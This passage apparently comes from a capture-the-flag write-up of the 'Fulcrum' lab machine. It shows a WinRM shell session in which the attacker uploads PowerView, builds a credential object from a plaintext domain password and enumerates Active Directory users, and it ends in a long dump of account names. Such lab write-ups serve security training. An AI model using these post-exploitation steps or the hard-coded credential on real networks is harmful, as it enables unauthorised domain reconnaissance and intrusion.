            STDERR.print(stderr)
        end
    end
    puts("Exiting with code #{output.exitcode}")
end
```

```sh
root@kali:~/fulcrum/winrm# gem install winrm-fs
root@kali:~/fulcrum/winrm# ruby winrm_shell_with_upload.rb
PS webserver\webuser@WEBSERVER Documents> UPLOAD PowerView.ps1 C:\Users\webuser\Documents\
Uploading PowerView.ps1 to C:\Users\webuser\Documents\26896 bytes of 1026340 bytes copied
53792 bytes of 1026340 bytes copied
80688 bytes of 1026340 bytes copied
107584 bytes of 1026340 bytes copied
134480 bytes of 1026340 bytes copied
161376 bytes of 1026340 bytes copied
188272 bytes of 1026340 bytes copied
215168 bytes of 1026340 bytes copied
242064 bytes of 1026340 bytes copied
268960 bytes of 1026340 bytes copied
295856 bytes of 1026340 bytes copied
322752 bytes of 1026340 bytes copied
349648 bytes of 1026340 bytes copied
376544 bytes of 1026340 bytes copied
403440 bytes of 1026340 bytes copied
430336 bytes of 1026340 bytes copied
457232 bytes of 1026340 bytes copied
484128 bytes of 1026340 bytes copied
511024 bytes of 1026340 bytes copied
537920 bytes of 1026340 bytes copied
564816 bytes of 1026340 bytes copied
591712 bytes of 1026340 bytes copied
618608 bytes of 1026340 bytes copied
645504 bytes of 1026340 bytes copied
672400 bytes of 1026340 bytes copied
699296 bytes of 1026340 bytes copied
726192 bytes of 1026340 bytes copied
753088 bytes of 1026340 bytes copied
779984 bytes of 1026340 bytes copied
806880 bytes of 1026340 bytes copied
833776 bytes of 1026340 bytes copied
860672 bytes of 1026340 bytes copied
887568 bytes of 1026340 bytes copied
914464 bytes of 1026340 bytes copied
941360 bytes of 1026340 bytes copied
968256 bytes of 1026340 bytes copied
995152 bytes of 1026340 bytes copied
1022048 bytes of 1026340 bytes copied
1026340 bytes of 1026340 bytes copied

OK
PS webserver\webuser@WEBSERVER Documents> dir


    Directory: C:\Users\WebUser\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2017   8:39 PM            260 CheckFileServer.ps1
-a----       10/12/2017   4:23 AM          33266 Invoke-PsExec.ps1
-a----        6/15/2018  12:41 AM         769757 PowerView.ps1
-a----        10/2/2017   8:23 PM             24 user.txt


PS webserver\webuser@WEBSERVER Documents> Import-Module .\PowerView.ps1
PS webserver\webuser@WEBSERVER Documents> $SecPass = ConvertTo-SecureString 'PasswordForSearching123!' -AsPlainText -Force
PS webserver\webuser@WEBSERVER Documents> $cred = New-Object System.Management.Automation.PSCredential('FULCRUM\LDAP',$SecPass)
PS webserver\webuser@WEBSERVER Documents> $cred

UserName                         Password
--------                         --------
FULCRUM\LDAP System.Security.SecureString


PS webserver\webuser@WEBSERVER Documents> Get-DomainUser -Credential $cred -DomainController dc.fulcrum.local
<------SNIP------>
PS webserver\webuser@WEBSERVER Documents> Get-DomainUser -Credential $cred -DomainController dc.fulcrum.local | select samAccountName, logoncount, lastlogon

samaccountname logoncount lastlogon
-------------- ---------- ---------
Administrator          29 11/20/2017 9:30:22 PM
Guest                   0 1/1/1601 12:00:00 AM
DefaultAccount          0 1/1/1601 12:00:00 AM
krbtgt                  0 1/1/1601 12:00:00 AM
BTables                18 11/20/2017 7:35:13 PM
LDAP                    0 1/1/1601 12:00:00 AM
be36                    0 1/1/1601 12:00:00 AM
8631                    0 10/5/2017 8:43:41 PM
9791                    0 1/1/1601 12:00:00 AM
879f                    0 1/1/1601 12:00:00 AM
953d                    0 1/1/1601 12:00:00 AM
81b2                    0 1/1/1601 12:00:00 AM
97f0                    0 1/1/1601 12:00:00 AM
ab32                    0 1/1/1601 12:00:00 AM
a830                    0 1/1/1601 12:00:00 AM
a1aa                    0 1/1/1601 12:00:00 AM
bff5                    0 1/1/1601 12:00:00 AM
999f                    0 1/1/1601 12:00:00 AM
9c53                    0 1/1/1601 12:00:00 AM
822c                    0 1/1/1601 12:00:00 AM
8f56                    0 10/5/2017 8:43:41 PM
98a0                    0 1/1/1601 12:00:00 AM
b09e                    0 1/1/1601 12:00:00 AM
95c4                    0 1/1/1601 12:00:00 AM
96b4                    0 1/1/1601 12:00:00 AM
a594                    0 1/1/1601 12:00:00 AM
8f1b                    0 1/1/1601 12:00:00 AM
8409                    0 1/1/1601 12:00:00 AM
af25                    0 1/1/1601 12:00:00 AM
a49d                    0 1/1/1601 12:00:00 AM
bc0d                    0 1/1/1601 12:00:00 AM
ae7a                    0 1/1/1601 12:00:00 AM
93a9                    0 1/1/1601 12:00:00 AM
ba53                    0 1/1/1601 12:00:00 AM
877d                    0 1/1/1601 12:00:00 AM
94c8                    0 1/1/1601 12:00:00 AM
9ade                    0 1/1/1601 12:00:00 AM
bab5                    0 1/1/1601 12:00:00 AM
9023                    0 1/1/1601 12:00:00 AM
906e                    0 1/1/1601 12:00:00 AM
bc1c                    0 1/1/1601 12:00:00 AM
849f                    0 1/1/1601 12:00:00 AM
8181                    0 1/1/1601 12:00:00 AM
9dd8                    0 1/1/1601 12:00:00 AM
a721                    0 10/5/2017 8:43:41 PM
8e9b                    0 1/1/1601 12:00:00 AM
b668                    0 1/1/1601 12:00:00 AM
915f                    0 1/1/1601 12:00:00 AM
9d40                    0 1/1/1601 12:00:00 AM
ab6f                    0 1/1/1601 12:00:00 AM
84d0                    0 1/1/1601 12:00:00 AM
8456                    0 1/1/1601 12:00:00 AM
b23d                    0 1/1/1601 12:00:00 AM
8531                    0 1/1/1601 12:00:00 AM
9e57                    0 1/1/1601 12:00:00 AM
9155                    0 1/1/1601 12:00:00 AM
a6ae                    0 1/1/1601 12:00:00 AM
84f1                    0 1/1/1601 12:00:00 AM
a94a                    0 1/1/1601 12:00:00 AM
84c3                    0 1/1/1601 12:00:00 AM
be4b                    0 1/1/1601 12:00:00 AM
ae60                    0 1/1/1601 12:00:00 AM
9d91                    0 1/1/1601 12:00:00 AM
a65b                    0 1/1/1601 12:00:00 AM
8336                    0 1/1/1601 12:00:00 AM
a8fe                    0 10/5/2017 8:43:41 PM
85e5                    0 1/1/1601 12:00:00 AM
a3af                    0 1/1/1601 12:00:00 AM
9eaa                    0 10/5/2017 8:43:41 PM
bd5c                    0 1/1/1601 12:00:00 AM
81cd                    0 1/1/1601 12:00:00 AM
92bd                    0 1/1/1601 12:00:00 AM
abb1                    0 1/1/1601 12:00:00 AM
920f                    0 1/1/1601 12:00:00 AM
b329                    0 1/1/1601 12:00:00 AM
baf0                    0 1/1/1601 12:00:00 AM
a26a                    0 10/5/2017 8:43:41 PM
8223                    0 1/1/1601 12:00:00 AM
ad45                    0 1/1/1601 12:00:00 AM
8e07                    0 1/1/1601 12:00:00 AM
961d                    0 1/1/1601 12:00:00 AM
9bd3                    0 1/1/1601 12:00:00 AM
82ea                    0 1/1/1601 12:00:00 AM
a944                    0 1/1/1601 12:00:00 AM
9a8d                    0 1/1/1601 12:00:00 AM
8b62                    0 1/1/1601 12:00:00 AM
9efa                    0 1/1/1601 12:00:00 AM
86b1                    0 1/1/1601 12:00:00 AM
9f4c                    0 1/1/1601 12:00:00 AM
8836                    0 1/1/1601 12:00:00 AM
aad3                    0 1/1/1601 12:00:00 AM
bb6e                    0 1/1/1601 12:00:00 AM
a3b9                    0 10/5/2017 8:43:41 PM
951a                    0 1/1/1601 12:00:00 AM
9388                    0 1/1/1601 12:00:00 AM
b886                    0 10/5/2017 8:43:41 PM
923e                    0 1/1/1601 12:00:00 AM
8376                    0 1/1/1601 12:00:00 AM
ad43                    0 1/1/1601 12:00:00 AM
82c4                    0 1/1/1601 12:00:00 AM
b046                    0 1/1/1601 12:00:00 AM
b330                    0 1/1/1601 12:00:00 AM
875d                    0 1/1/1601 12:00:00 AM
b650                    0 1/1/1601 12:00:00 AM
8470                    0 1/1/1601 12:00:00 AM
9ea5                    0 1/1/1601 12:00:00 AM
9ae0                    0 10/5/2017 8:43:42 PM
99ab                    0 1/1/1601 12:00:00 AM
9d15                    0 1/1/1601 12:00:00 AM
a667                    0 1/1/1601 12:00:00 AM
828b                    0 10/5/2017 8:43:42 PM
93fa                    0 1/1/1601 12:00:00 AM
8c63                    0 1/1/1601 12:00:00 AM
b077                    0 1/1/1601 12:00:00 AM
a176                    0 1/1/1601 12:00:00 AM
a6a2                    0 1/1/1601 12:00:00 AM
885f                    0 1/1/1601 12:00:00 AM
bc3c                    0 1/1/1601 12:00:00 AM
a039                    0 1/1/1601 12:00:00 AM
a7f8                    0 1/1/1601 12:00:00 AM
bb83                    0 1/1/1601 12:00:00 AM
9ea9                    0 1/1/1601 12:00:00 AM
b83c                    0 1/1/1601 12:00:00 AM
b994                    0 1/1/1601 12:00:00 AM
84cd                    0 1/1/1601 12:00:00 AM
924a                    0 1/1/1601 12:00:00 AM
b834                    0 1/1/1601 12:00:00 AM
8f5c                    0 1/1/1601 12:00:00 AM
a793                    0 1/1/1601 12:00:00 AM
bc43                    0 1/1/1601 12:00:00 AM
95a6                    0 1/1/1601 12:00:00 AM
8f9b                    0 10/5/2017 8:43:42 PM
8358                    0 1/1/1601 12:00:00 AM
9391                    0 1/1/1601 12:00:00 AM
969a                    0 1/1/1601 12:00:00 AM
91a5                    0 1/1/1601 12:00:00 AM
9492                    0 1/1/1601 12:00:00 AM
950b                    0 1/1/1601 12:00:00 AM
853d                    0 1/1/1601 12:00:00 AM
85a6                    0 10/5/2017 8:43:42 PM
8d58                    0 1/1/1601 12:00:00 AM
a97f                    0 1/1/1601 12:00:00 AM
8849                    0 1/1/1601 12:00:00 AM
ad54                    0 10/5/2017 8:43:42 PM
b92a                    0 10/5/2017 8:43:42 PM
b2f3                    0 1/1/1601 12:00:00 AM
aa03                    0 1/1/1601 12:00:00 AM
8ede                    0 1/1/1601 12:00:00 AM
b10d                    0 1/1/1601 12:00:00 AM
8691                    0 1/1/1601 12:00:00 AM
b2ee                    0 1/1/1601 12:00:00 AM
8990                    0 1/1/1601 12:00:00 AM
b2fd                    0 10/5/2017 8:43:42 PM
9382                    0 1/1/1601 12:00:00 AM
af9e                    0 1/1/1601 12:00:00 AM
b7d9                    0 1/1/1601 12:00:00 AM
bafd                    0 1/1/1601 12:00:00 AM
b3ad                    0 1/1/1601 12:00:00 AM
a4ce                    0 1/1/1601 12:00:00 AM
893c                    0 1/1/1601 12:00:00 AM
896a                    0 1/1/1601 12:00:00 AM
a022                    0 1/1/1601 12:00:00 AM
bfa8                    0 1/1/1601 12:00:00 AM
8ec2                    0 1/1/1601 12:00:00 AM
90d5                    0 1/1/1601 12:00:00 AM
bbd5                    0 1/1/1601 12:00:00 AM
b785                    0 10/5/2017 8:43:42 PM
8878                    0 1/1/1601 12:00:00 AM
b6bc                    0 1/1/1601 12:00:00 AM
8072                    0 1/1/1601 12:00:00 AM
91e8                    0 1/1/1601 12:00:00 AM
b67c                    0 1/1/1601 12:00:00 AM
8f1d                    0 1/1/1601 12:00:00 AM
8aba                    0 1/1/1601 12:00:00 AM
9901                    0 1/1/1601 12:00:00 AM
93af                    0 1/1/1601 12:00:00 AM
a01c                    0 1/1/1601 12:00:00 AM
b9df                    0 1/1/1601 12:00:00 AM
b11f                    0 1/1/1601 12:00:00 AM
b7ab                    0 1/1/1601 12:00:00 AM
82cf                    0 1/1/1601 12:00:00 AM
b64c                    0 1/1/1601 12:00:00 AM
90d4                    0 1/1/1601 12:00:00 AM
a38e                    0 1/1/1601 12:00:00 AM
b441                    0 1/1/1601 12:00:00 AM
b52a                    0 1/1/1601 12:00:00 AM
9c92                    0 1/1/1601 12:00:00 AM
b5ba                    0 1/1/1601 12:00:00 AM
acd4                    0 1/1/1601 12:00:00 AM
9a77                    0 1/1/1601 12:00:00 AM
bd69                    0 1/1/1601 12:00:00 AM
a6d0                    0 1/1/1601 12:00:00 AM
b027                    0 1/1/1601 12:00:00 AM
aa87                    0 1/1/1601 12:00:00 AM
a61a                    0 1/1/1601 12:00:00 AM
859c                    0 1/1/1601 12:00:00 AM
b0ee                    0 1/1/1601 12:00:00 AM
9961                    0 1/1/1601 12:00:00 AM
a073                    0 1/1/1601 12:00:00 AM
9082                    0 1/1/1601 12:00:00 AM
a24f                    0 1/1/1601 12:00:00 AM
8002                    0 1/1/1601 12:00:00 AM
b014                    0 1/1/1601 12:00:00 AM
b5e0                    0 1/1/1601 12:00:00 AM
9baf                    0 1/1/1601 12:00:00 AM
a641                    0 1/1/1601 12:00:00 AM
8af1                    0 1/1/1601 12:00:00 AM
aad5                    0 1/1/1601 12:00:00 AM
940b                    0 1/1/1601 12:00:00 AM
bb0f                    0 1/1/1601 12:00:00 AM
ae61                    0 1/1/1601 12:00:00 AM
b05a                    0 1/1/1601 12:00:00 AM
b124                    0 1/1/1601 12:00:00 AM
95e8                    0 1/1/1601 12:00:00 AM
9a9f                    0 1/1/1601 12:00:00 AM
8a6b                    0 1/1/1601 12:00:00 AM
9fff                    0 1/1/1601 12:00:00 AM
993a                    0 1/1/1601 12:00:00 AM
bfd7                    0 1/1/1601 12:00:00 AM
b54f                    0 1/1/1601 12:00:00 AM
8676                    0 1/1/1601 12:00:00 AM
a56b                    0 1/1/1601 12:00:00 AM
b19f                    0 1/1/1601 12:00:00 AM
a04f                    0 1/1/1601 12:00:00 AM
8d28                    0 1/1/1601 12:00:00 AM
ba83                    0 1/1/1601 12:00:00 AM
a42f                    0 1/1/1601 12:00:00 AM
a8c4                    0 1/1/1601 12:00:00 AM
a86a                    0 1/1/1601 12:00:00 AM
885b                    0 1/1/1601 12:00:00 AM
a2bd                    0 1/1/1601 12:00:00 AM
8afc                    0 1/1/1601 12:00:00 AM
b1cf                    0 1/1/1601 12:00:00 AM
a955                    0 1/1/1601 12:00:00 AM
81cc                    0 1/1/1601 12:00:00 AM
ad06                    0 1/1/1601 12:00:00 AM
bfc9                    0 1/1/1601 12:00:00 AM
82a6                    0 1/1/1601 12:00:00 AM
97ef                    0 1/1/1601 12:00:00 AM
9e96                    0 1/1/1601 12:00:00 AM
adf7                    0 1/1/1601 12:00:00 AM
9b14                    0 1/1/1601 12:00:00 AM
987b                    0 1/1/1601 12:00:00 AM
b0ca                    0 1/1/1601 12:00:00 AM
82aa                    0 1/1/1601 12:00:00 AM
803a                    0 1/1/1601 12:00:00 AM
8f7e                    0 1/1/1601 12:00:00 AM
bbde                    0 1/1/1601 12:00:00 AM
8e8a                    0 1/1/1601 12:00:00 AM
bad0                    0 1/1/1601 12:00:00 AM
a0e0                    0 1/1/1601 12:00:00 AM
8820                    0 1/1/1601 12:00:00 AM
9a3c                    0 1/1/1601 12:00:00 AM
8d0e                    0 1/1/1601 12:00:00 AM
bb61                    0 1/1/1601 12:00:00 AM
b893                    0 1/1/1601 12:00:00 AM
8108                    0 1/1/1601 12:00:00 AM
8082                    0 1/1/1601 12:00:00 AM
97e9                    0 1/1/1601 12:00:00 AM
96dc                    0 1/1/1601 12:00:00 AM
bcb2                    0 1/1/1601 12:00:00 AM
8967                    0 1/1/1601 12:00:00 AM
aa44                    0 1/1/1601 12:00:00 AM
b5b8                    0 1/1/1601 12:00:00 AM
9d20                    0 1/1/1601 12:00:00 AM
8a17                    0 1/1/1601 12:00:00 AM
9919                    0 1/1/1601 12:00:00 AM
86fe                    0 1/1/1601 12:00:00 AM
b018                    0 1/1/1601 12:00:00 AM
83bf                    0 1/1/1601 12:00:00 AM
8861                    0 1/1/1601 12:00:00 AM
95aa                    0 1/1/1601 12:00:00 AM
ac4a                    0 1/1/1601 12:00:00 AM
a63d                    0 1/1/1601 12:00:00 AM
a783                    0 1/1/1601 12:00:00 AM
8407                    0 1/1/1601 12:00:00 AM
bc0b                    0 1/1/1601 12:00:00 AM
81d7                    0 1/1/1601 12:00:00 AM
a557                    0 1/1/1601 12:00:00 AM
8ed4                    0 1/1/1601 12:00:00 AM
afd2                    0 1/1/1601 12:00:00 AM
9c36                    0 1/1/1601 12:00:00 AM
b6af                    0 1/1/1601 12:00:00 AM
adb9                    0 1/1/1601 12:00:00 AM
8e78                    0 1/1/1601 12:00:00 AM
bcf5                    0 1/1/1601 12:00:00 AM
acfc                    0 1/1/1601 12:00:00 AM
a1ba                    0 1/1/1601 12:00:00 AM
ab8a                    0 1/1/1601 12:00:00 AM
8efb                    0 1/1/1601 12:00:00 AM
a413                    0 1/1/1601 12:00:00 AM
879c                    0 1/1/1601 12:00:00 AM
94d8                    0 1/1/1601 12:00:00 AM
9fc4                    0 1/1/1601 12:00:00 AM
845a                    0 1/1/1601 12:00:00 AM
810c                    0 1/1/1601 12:00:00 AM
b607                    0 1/1/1601 12:00:00 AM
8949                    0 1/1/1601 12:00:00 AM
b9e2                    0 1/1/1601 12:00:00 AM
8faf                    0 1/1/1601 12:00:00 AM
bc1b                    0 1/1/1601 12:00:00 AM
8dd3                    0 1/1/1601 12:00:00 AM
8e51                    0 1/1/1601 12:00:00 AM
8c39                    0 1/1/1601 12:00:00 AM
8119                    0 1/1/1601 12:00:00 AM
a4f4                    0 1/1/1601 12:00:00 AM
adef                    0 1/1/1601 12:00:00 AM
b5ad                    0 1/1/1601 12:00:00 AM
bc4f                    0 1/1/1601 12:00:00 AM
b7be                    0 1/1/1601 12:00:00 AM
b2d7                    0 1/1/1601 12:00:00 AM
b287                    0 1/1/1601 12:00:00 AM
a17a                    0 1/1/1601 12:00:00 AM
b79d                    0 1/1/1601 12:00:00 AM
878f                    0 1/1/1601 12:00:00 AM
96d9                    0 1/1/1601 12:00:00 AM
b694                    0 1/1/1601 12:00:00 AM
b461                    0 1/1/1601 12:00:00 AM
9c7d                    0 1/1/1601 12:00:00 AM
812d                    0 1/1/1601 12:00:00 AM
9e92                    0 1/1/1601 12:00:00 AM
8bad                    0 1/1/1601 12:00:00 AM
b59a                    0 1/1/1601 12:00:00 AM
883f                    0 1/1/1601 12:00:00 AM
8b1f                    0 1/1/1601 12:00:00 AM
b6ce                    0 1/1/1601 12:00:00 AM
b119                    0 1/1/1601 12:00:00 AM
9594                    0 1/1/1601 12:00:00 AM
9fb9                    0 1/1/1601 12:00:00 AM
8fd1                    0 1/1/1601 12:00:00 AM
b412                    0 1/1/1601 12:00:00 AM
b3e6                    0 1/1/1601 12:00:00 AM
b62f                    0 1/1/1601 12:00:00 AM
9f4b                    0 1/1/1601 12:00:00 AM
acd8                    0 1/1/1601 12:00:00 AM
8f73                    0 1/1/1601 12:00:00 AM
b04e                    0 1/1/1601 12:00:00 AM
bd61                    0 1/1/1601 12:00:00 AM
8a3f                    0 1/1/1601 12:00:00 AM
8fd2                    0 1/1/1601 12:00:00 AM
a79f                    0 1/1/1601 12:00:00 AM
b7d3                    0 1/1/1601 12:00:00 AM
9d11                    0 1/1/1601 12:00:00 AM
b6cb                    0 1/1/1601 12:00:00 AM
8c3b                    0 1/1/1601 12:00:00 AM
8767                    0 1/1/1601 12:00:00 AM
8ebc                    0 1/1/1601 12:00:00 AM
ab83                    0 1/1/1601 12:00:00 AM
a4b5                    0 1/1/1601 12:00:00 AM
9f8b                    0 1/1/1601 12:00:00 AM
9645                    0 1/1/1601 12:00:00 AM
a3f6                    0 1/1/1601 12:00:00 AM
8630                    0 1/1/1601 12:00:00 AM
b1bc                    0 1/1/1601 12:00:00 AM
8ddb                    0 1/1/1601 12:00:00 AM
9169                    0 1/1/1601 12:00:00 AM
9993                    0 1/1/1601 12:00:00 AM
9b46                    0 1/1/1601 12:00:00 AM
bad4                    0 1/1/1601 12:00:00 AM
8a82                    0 1/1/1601 12:00:00 AM
b15b                    0 1/1/1601 12:00:00 AM
b2eb                    0 1/1/1601 12:00:00 AM
aba3                    0 1/1/1601 12:00:00 AM
9fe6                    0 1/1/1601 12:00:00 AM
be85                    0 1/1/1601 12:00:00 AM
b4e7                    0 1/1/1601 12:00:00 AM
aa1f                    0 1/1/1601 12:00:00 AM
8327                    0 1/1/1601 12:00:00 AM
ad53                    0 1/1/1601 12:00:00 AM
9bca                    0 1/1/1601 12:00:00 AM
802f                    0 1/1/1601 12:00:00 AM
95e3                    0 1/1/1601 12:00:00 AM
8b77                    0 1/1/1601 12:00:00 AM
9ec7                    0 1/1/1601 12:00:00 AM
8e13                    0 1/1/1601 12:00:00 AM
ad60                    0 1/1/1601 12:00:00 AM
9a0e                    0 1/1/1601 12:00:00 AM
b3d4                    0 1/1/1601 12:00:00 AM
8cd0                    0 1/1/1601 12:00:00 AM
a484                    0 1/1/1601 12:00:00 AM
b9ce                    0 1/1/1601 12:00:00 AM
bca3                    0 1/1/1601 12:00:00 AM
9be5                    0 1/1/1601 12:00:00 AM
8f2c                    0 1/1/1601 12:00:00 AM
9ee8                    0 1/1/1601 12:00:00 AM
8ab3                    0 1/1/1601 12:00:00 AM
ad8e                    0 1/1/1601 12:00:00 AM
a724                    0 1/1/1601 12:00:00 AM
8bd5                    0 1/1/1601 12:00:00 AM
856b                    0 1/1/1601 12:00:00 AM
a8d1                    0 1/1/1601 12:00:00 AM
b970                    0 1/1/1601 12:00:00 AM
ab28                    0 1/1/1601 12:00:00 AM
824e                    0 1/1/1601 12:00:00 AM
b9ad                    0 1/1/1601 12:00:00 AM
8868                    0 1/1/1601 12:00:00 AM
9f0c                    0 1/1/1601 12:00:00 AM
b8a8                    0 1/1/1601 12:00:00 AM
ba1e                    0 1/1/1601 12:00:00 AM
a358                    0 1/1/1601 12:00:00 AM
8558                    0 1/1/1601 12:00:00 AM
a15f                    0 1/1/1601 12:00:00 AM
9137                    0 1/1/1601 12:00:00 AM
bb7e                    0 1/1/1601 12:00:00 AM
b93a                    0 1/1/1601 12:00:00 AM
aca1                    0 1/1/1601 12:00:00 AM
abec                    0 1/1/1601 12:00:00 AM
868b                    0 1/1/1601 12:00:00 AM
ad74                    0 1/1/1601 12:00:00 AM
9115                    0 1/1/1601 12:00:00 AM
960c                    0 1/1/1601 12:00:00 AM
a5d8                    0 1/1/1601 12:00:00 AM
bd7b                    0 1/1/1601 12:00:00 AM
9fcd                    0 1/1/1601 12:00:00 AM
acfb                    0 1/1/1601 12:00:00 AM
a129                    0 1/1/1601 12:00:00 AM
9634                    0 1/1/1601 12:00:00 AM
a133                    0 1/1/1601 12:00:00 AM
856e                    0 1/1/1601 12:00:00 AM
a815                    0 1/1/1601 12:00:00 AM
bedc                    0 1/1/1601 12:00:00 AM
aa6e                    0 1/1/1601 12:00:00 AM
a0ee                    0 1/1/1601 12:00:00 AM
a5a5                    0 1/1/1601 12:00:00 AM
b0f4                    0 1/1/1601 12:00:00 AM
a2e4                    0 1/1/1601 12:00:00 AM
a882                    0 1/1/1601 12:00:00 AM
a4a6                    0 1/1/1601 12:00:00 AM
8871                    0 1/1/1601 12:00:00 AM
963b                    0 1/1/1601 12:00:00 AM
89e4                    0 1/1/1601 12:00:00 AM
a1a8                    0 1/1/1601 12:00:00 AM
9de8                    0 1/1/1601 12:00:00 AM
90d1                    0 1/1/1601 12:00:00 AM
8c98                    0 1/1/1601 12:00:00 AM
b04b                    0 1/1/1601 12:00:00 AM
b464                    0 1/1/1601 12:00:00 AM
851b                    0 1/1/1601 12:00:00 AM
ac26                    0 1/1/1601 12:00:00 AM
b71f                    0 1/1/1601 12:00:00 AM
8c0a                    0 1/1/1601 12:00:00 AM
8fb2                    0 1/1/1601 12:00:00 AM
9b9f                    0 1/1/1601 12:00:00 AM
8696                    0 1/1/1601 12:00:00 AM
afef                    0 1/1/1601 12:00:00 AM
ad64                    0 1/1/1601 12:00:00 AM
83a0                    0 1/1/1601 12:00:00 AM
a95a                    0 1/1/1601 12:00:00 AM
9922                    0 1/1/1601 12:00:00 AM
b598                    0 1/1/1601 12:00:00 AM
9eab                    0 1/1/1601 12:00:00 AM
9d97                    0 1/1/1601 12:00:00 AM
8ce5                    0 1/1/1601 12:00:00 AM
9192                    0 1/1/1601 12:00:00 AM
a55a                    0 1/1/1601 12:00:00 AM
b6ad                    0 1/1/1601 12:00:00 AM
b3b5                    0 1/1/1601 12:00:00 AM
b300                    0 1/1/1601 12:00:00 AM
8482                    0 1/1/1601 12:00:00 AM
9f53                    0 1/1/1601 12:00:00 AM
b832                    0 1/1/1601 12:00:00 AM
a0eb                    0 1/1/1601 12:00:00 AM
a6b9                    0 1/1/1601 12:00:00 AM
a7e6                    0 1/1/1601 12:00:00 AM
9cea                    0 1/1/1601 12:00:00 AM
8d25                    0 1/1/1601 12:00:00 AM
9923                    0 1/1/1601 12:00:00 AM
b0b6                    0 1/1/1601 12:00:00 AM
9e2a                    0 1/1/1601 12:00:00 AM
a700                    0 1/1/1601 12:00:00 AM
b473                    0 1/1/1601 12:00:00 AM
984a                    0 1/1/1601 12:00:00 AM
90f2                    0 1/1/1601 12:00:00 AM
8b24                    0 1/1/1601 12:00:00 AM
93f3                    0 1/1/1601 12:00:00 AM
a14f                    0 1/1/1601 12:00:00 AM
9b86                    0 1/1/1601 12:00:00 AM
9034                    0 1/1/1601 12:00:00 AM
b047                    0 1/1/1601 12:00:00 AM
8ce7                    0 1/1/1601 12:00:00 AM
9b1e                    0 1/1/1601 12:00:00 AM
a0d5                    0 1/1/1601 12:00:00 AM
9c79                    0 1/1/1601 12:00:00 AM
b939                    0 1/1/1601 12:00:00 AM
87ae                    0 1/1/1601 12:00:00 AM
9eb3                    0 1/1/1601 12:00:00 AM
8014                    0 1/1/1601 12:00:00 AM
bbcf                    0 1/1/1601 12:00:00 AM
bfdd                    0 1/1/1601 12:00:00 AM
afaa                    0 1/1/1601 12:00:00 AM
83ce                    0 1/1/1601 12:00:00 AM
81fe                    0 1/1/1601 12:00:00 AM
b9f1                    0 1/1/1601 12:00:00 AM
b40d                    0 1/1/1601 12:00:00 AM
a1e6                    0 1/1/1601 12:00:00 AM
8d23                    0 1/1/1601 12:00:00 AM
86cf                    0 1/1/1601 12:00:00 AM
bcb7                    0 1/1/1601 12:00:00 AM
9cfa                    0 1/1/1601 12:00:00 AM
8c7a                    0 1/1/1601 12:00:00 AM
a6dc                    0 1/1/1601 12:00:00 AM
94d0                    0 1/1/1601 12:00:00 AM
9b3f                    0 1/1/1601 12:00:00 AM
8521                    0 1/1/1601 12:00:00 AM
9f68                    0 1/1/1601 12:00:00 AM
bee6                    0 1/1/1601 12:00:00 AM
ac5d                    0 1/1/1601 12:00:00 AM
b8f0                    0 1/1/1601 12:00:00 AM
8315                    0 1/1/1601 12:00:00 AM
8852                    0 1/1/1601 12:00:00 AM
a3e4                    0 1/1/1601 12:00:00 AM
87d1                    0 1/1/1601 12:00:00 AM
9664                    0 1/1/1601 12:00:00 AM
9e83                    0 1/1/1601 12:00:00 AM
9500                    0 1/1/1601 12:00:00 AM
801c                    0 1/1/1601 12:00:00 AM
ac44                    0 1/1/1601 12:00:00 AM
a6b2                    0 1/1/1601 12:00:00 AM
ac27                    0 1/1/1601 12:00:00 AM
bd72                    0 1/1/1601 12:00:00 AM
9b34                    0 1/1/1601 12:00:00 AM
88e6                    0 1/1/1601 12:00:00 AM
8165                    0 1/1/1601 12:00:00 AM
8bb5                    0 1/1/1601 12:00:00 AM
8f91                    0 1/1/1601 12:00:00 AM
839d                    0 1/1/1601 12:00:00 AM
a0ec                    0 1/1/1601 12:00:00 AM
b30d                    0 1/1/1601 12:00:00 AM
bd6f                    0 1/1/1601 12:00:00 AM
9dbe                    0 1/1/1601 12:00:00 AM
a311                    0 1/1/1601 12:00:00 AM
843c                    0 1/1/1601 12:00:00 AM
8a3b                    0 1/1/1601 12:00:00 AM
a4b3                    0 1/1/1601 12:00:00 AM
911a                    0 1/1/1601 12:00:00 AM
b908                    0 1/1/1601 12:00:00 AM
a35d                    0 1/1/1601 12:00:00 AM
a6a0                    0 1/1/1601 12:00:00 AM
bb5c                    0 1/1/1601 12:00:00 AM
bc38                    0 1/1/1601 12:00:00 AM
846b                    0 1/1/1601 12:00:00 AM
b7b5                    0 1/1/1601 12:00:00 AM
b750                    0 1/1/1601 12:00:00 AM
b6bb                    0 1/1/1601 12:00:00 AM
936d                    0 1/1/1601 12:00:00 AM
b9c3                    0 1/1/1601 12:00:00 AM
9a11                    0 1/1/1601 12:00:00 AM
8c17                    0 1/1/1601 12:00:00 AM
92fd                    0 1/1/1601 12:00:00 AM
8886                    0 1/1/1601 12:00:00 AM
9c52                    0 1/1/1601 12:00:00 AM
b935                    0 1/1/1601 12:00:00 AM
9b94                    0 1/1/1601 12:00:00 AM
ba64                    0 1/1/1601 12:00:00 AM
a2c7                    0 1/1/1601 12:00:00 AM
a556                    0 1/1/1601 12:00:00 AM
ac36                    0 1/1/1601 12:00:00 AM
9aac                    0 1/1/1601 12:00:00 AM
bd16                    0 1/1/1601 12:00:00 AM
9c63                    0 1/1/1601 12:00:00 AM
8de6                    0 1/1/1601 12:00:00 AM
92c3                    0 1/1/1601 12:00:00 AM
b8af                    0 1/1/1601 12:00:00 AM
91b2                    0 1/1/1601 12:00:00 AM
9d53                    0 1/1/1601 12:00:00 AM
8ac1                    0 1/1/1601 12:00:00 AM
ad71                    0 1/1/1601 12:00:00 AM
8c88                    0 1/1/1601 12:00:00 AM
82ed                    0 1/1/1601 12:00:00 AM
91ec                    0 1/1/1601 12:00:00 AM
8468                    0 1/1/1601 12:00:00 AM
996b                    0 1/1/1601 12:00:00 AM
a485                    0 1/1/1601 12:00:00 AM
9d00                    0 1/1/1601 12:00:00 AM
8334                    0 1/1/1601 12:00:00 AM
9e67                    0 1/1/1601 12:00:00 AM
ac1e                    0 1/1/1601 12:00:00 AM
b46b                    0 1/1/1601 12:00:00 AM
bfd1                    0 1/1/1601 12:00:00 AM
8322                    0 1/1/1601 12:00:00 AM
8c32                    0 1/1/1601 12:00:00 AM
a781                    0 1/1/1601 12:00:00 AM
8332                    0 1/1/1601 12:00:00 AM
905b                    0 1/1/1601 12:00:00 AM
8420                    0 1/1/1601 12:00:00 AM
b966                    0 1/1/1601 12:00:00 AM
9fa2                    0 1/1/1601 12:00:00 AM
b9e6                    0 1/1/1601 12:00:00 AM
9033                    0 1/1/1601 12:00:00 AM
